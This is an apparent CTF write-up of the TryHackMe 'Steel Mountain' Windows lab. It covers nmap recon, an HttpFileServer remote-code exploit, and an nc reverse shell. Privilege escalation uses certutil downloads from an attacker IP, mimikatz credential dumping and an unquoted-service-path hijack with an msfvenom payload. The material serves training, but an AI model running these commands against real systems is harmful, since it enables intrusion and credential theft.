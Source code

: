 # SteelMountain [THM](https://tryhackme.com/room/steelmountain)
![steel-mountain-01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/steel-mountain-01.png)

## recon 

Lets kick off enumeration with `nmap`:

`nmap -T4 -p- -A -Pn 10.10.80.108`

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/nmap-res-02.png)

we have the following services:

+ An IIS V8.5 server on port 80.
+ An RPC endpoint on port 135.
+ NETBIOS-SSN on port 139.
+ SMB on port 445.
+ RDP V6.3 on port 3389.
+ An HTTPAPI on ports 5985 and 47001.
+ An HTTP File server on port 8080.

Trying to interact with the RDP fails on an authorization error:

`Failed to connect, CredSSP required by server`. 

This happens becuase our kali machine isnt setup with kerberos. 

Lets check the SMB, see if its misconfigured, maybe we can find credetials there. 
Then well take a look at the web server and the various API's.



### SMB 445

If we try to login anonymously with `smbclient` we get kicked out:

![smbclinet-fail-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/smbclient-fail-03.png)


If we try `crackmapexec` this fails as well:

![crackmapexec-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/crackmapexec-fail-04.png)


Looks like a dead end, we need creds. Lets check the HTTP server. 



### HTTP 80

Navigating towards the site's URL `http://10.10.80.108`

![site-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/site-05.png)


Look empty. I've tried directory busting, it only leads to an `img` directory with noting interesting. 
Source code looks empty as well:

![site-source-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/site-source-06.png)

Lets take a look at the file server.


### HttpFileServer 8080


If we navigate towards the target URL `http://10.10.80.108:8080`

![file-server-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/file-server-07.png)


We have a search feature, and a login form, but we dont need to log in to search stuff. 
Searching yields nothing, but if we check for known vulnerabilities online we find something juicy:

![exploitdb-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/exploitdb-08.png)

[Source](https://www.exploit-db.com/exploits/39161)


Looks like Python 2, appears to be abusing the search feature:

![exploit-analyze-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/exploit-analyze-09.png)


Looks promising. Worth a shot. 


## Exploit

Here is the exploitation breakdown: 

1) Download the exploit to your kali, and make sure to update your IP and port:

![update-exploit-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/update-exploit-10.png)


2) Place a copy of `nc.exe` in a directory of your choosing and fire off an HTTP server on port 80

`python3 -m http.server 80` 

![http-server-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/http-server-11.png)


3) Start the listener with `nc -lvnp 8044`


4) Execute the exploit with `./exploit.py 10.10.8.108 8080`


5) Get a shell:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/shell-12.png)


Lets get system!



## Privilege Escalation 

If we run `systeminfo`:

![sysinfo-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/sysinfo-13.png)


We are dealing with a MS server 2012 R2. Lets try searching for stored credentials.   

I tried manual searching with:

`findstr /spin "password" *.*`

I tried searching the regestry with:

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

I then tried [mimikatz](https://github.com/gentilkiwi/mimikatz)
Download the tool, transfer to the clinet via python web server and `certutil`.

I tried running `vault::cred`

![mimikatz-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/mimikatz-14.png)

Looks like a password. I tried connecting via the RDP, same error of:

`Failed to connect, CredSSP required by server`

I tried using the password to enumerate the smb with different tools like `enum4linux` and `smbclient`,
nothing interesting came up. 

Decided to shift gears and try [winpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230731-452f0c44) We need the `winPEASx64.exe` binary. 

1) Transfer it to the clinet using a python server with:

`python3 -m http.server 80`

2) Download it to the target with:

`certutil -urlcache -f http://10.18.22.182/winPEASx64.exe winpeas.exe`

3) Execute `winpeas.exe`

![winpeas-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/winpeas-15.png)

We have an unquoted service with spaces, we can potentially hijack this with our own custom binary. 
Our user also has full write permission to this directory. 

Lets examine this process. First lets run `net start` to list all running processes:

![net-start-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/net-start-16.png)

Lets check its properties, primarly, under which user it runs. We can do this with:

`sc qc AdvancedSystemCareService9`

![sc-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/sc-16.png)

It runs as the system. We can abuse this to gain system access. 

1) Create venom 

`msfvenom -p windows/x64/re`


2) Stop the service on the target with:

`net stop AdvancedSystemCareService9`


3) Download the venom to the target with:

`certutil -urlcache -f http://10.18.22.182/ASCService.exe ASCService.exe`


4) Start the listener with:

`nc -lvnp 9009`


5) Start the service with:

`net start AdvancedSystemCareService9`


6) Get system:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/root-17.png)

